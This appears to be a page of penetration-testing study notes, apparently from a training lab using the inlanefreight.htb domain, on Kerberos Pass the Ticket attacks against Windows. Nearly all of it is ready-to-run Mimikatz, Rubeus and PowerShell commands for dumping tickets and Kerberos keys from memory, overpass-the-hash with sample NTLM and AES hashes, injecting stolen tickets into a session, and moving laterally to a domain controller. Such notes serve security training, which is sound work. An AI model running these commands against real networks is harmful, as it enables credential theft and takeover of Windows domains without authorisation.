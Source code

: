 
### Pass the Ticket (PtT)

- Two types of ticket
    - Service Ticket  - TGS
    - Ticket Granting Ticket - TGT
- Harvesting Kerberos Tickets from Windows
- Mimikatz - Export Tickets
    - mimikatz.exe
    - privilege::debug
    - sekurlsa::tickets /export
    - dir *.kirbi
    - Note: At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.
- Rubeus - Export Tickets
    - Rubeus.exe dump /nowrap
- Generate our own ticket
- Pass the Key or OverPass the Hash
    - Need user’s hash
    - Mimikatz - Extract Kerberos Keys
        - mimikatz.exe
        - privilege::debug
        - sekurlsa::ekeys
    - Mimikatz - Pass the Key or OverPass the Hash
        - sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
    - Rubeus - Pass the Key or OverPass the Hash
        - Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
    - Note: Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.
    - Note: Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade.”
- Pass the Ticket (PtT)
    - Rubeus
        - Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
        - submit ticket to current logon session
        - Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
        - OR
        - PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
        - Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID<SNIP>
    - Mimikatz - Pass the Ticket
        - mimikatz.exe
        - privilege::debug
        - kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi”
        - exit
        - Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.
- Pass The Ticket with PowerShell Remoting (Windows)
    - Mimikatz - Pass the Ticket for Lateral Movement.
        - member of the Remote Management Users group
        - mimikatz.exe
        - privilege::debug
        - kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi”
        - exit
        - powershell
        - Enter-PSSession -ComputerName DC01